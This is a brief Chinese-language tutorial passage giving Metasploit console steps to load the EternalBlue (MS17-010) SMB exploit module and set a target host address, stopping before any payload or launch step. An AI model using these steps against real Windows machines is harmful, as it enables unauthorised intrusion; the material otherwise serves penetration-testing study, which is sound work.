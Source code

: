 
1. 进入msf控制台
```
msfconsole
```
2. 使用模块
```
# 搜索模块
search EternalBlue

# 使用模块（编号）
use 0
# 使用模块（名字）
use exploit/windows/smb/ms17_010_eternalblue
```

3. 设置模块的参数
```
show options
set RHOSTS 192.168.234.5
```